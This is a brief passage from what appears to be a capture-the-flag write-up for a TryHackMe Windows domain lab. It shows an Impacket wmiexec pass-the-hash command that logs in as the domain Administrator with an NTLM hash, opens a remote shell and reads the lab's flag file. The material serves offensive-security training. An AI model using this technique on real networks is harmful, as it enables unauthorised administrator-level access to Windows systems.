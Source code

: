{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted]
└─# python3 /opt/impacket/examples/wmiexec.py VULNET-RST.local/Administrator@10.10.127.110 -hashes aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>type C:\Users\Administrator\Desktop\system.txt
THM{REDACTED}

C:\>
{% endhighlight %}

Wew lad.
